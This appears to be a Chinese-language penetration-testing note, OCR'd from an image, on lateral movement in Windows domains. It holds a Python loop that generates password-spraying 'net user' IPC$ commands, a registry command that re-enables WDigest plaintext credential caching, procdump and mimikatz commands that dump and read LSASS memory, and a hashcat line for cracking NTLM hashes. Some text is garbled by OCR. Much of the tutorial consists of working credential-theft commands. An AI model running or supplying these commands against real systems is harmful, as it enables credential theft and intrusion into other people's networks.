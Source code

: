 ```python
    for user in users:
        for mima in passs:
            exec="net user \\" + "\\" + ip + '\ip$' + mima + ' /user:god\\' +user
            print('--->'+exec+'<--')
            # os.system(exec)
            time.sleep(1)
```

## 域横向smb&wmi明文或hash传递

#知识点1 :
Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码
Windows2012以下版本如安装KB2871997补丁，同样也会导致无法获取明文密码;
针对以上情况，我们提供了4种方式解决此类问题
1.利用哈希hash传递(pth, ptk等)进行移动
2.利用其它服务协议(SMB, WMI等)进行哈希移动
3.利用注册表操作开启wdigest Auth值进行获取
4.利用工具或第三方平台(Hachcat)进行破解获取

#知识点2:
Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后， 认证方式均为NTLM Hash。

#注册表修改

```
reg add
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest/v UseLogonCredential/t REG_DWORD /d 1 /f
```

### Procdump+Mimikatz配合获取

#procdump配合mimikatz

```
procdump - accepteula- ma lsass.exe lsass.dmp 
```

mimikatz上执行:

```
sekurlsa::minidump lsass.dmp
sekurlsa:: logonPasswords full
#Pwdump7
#Quar ks Pwdump
```

### hashcat

github 网站地址为：https://github.com/hashcat/hashcat

[密码破解全能工具：Hashcat密码破解攻略 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/164507.html)

```
hashcat-m 1000 -a 0 -o winpassok.txt win.hash password.lst --username
```
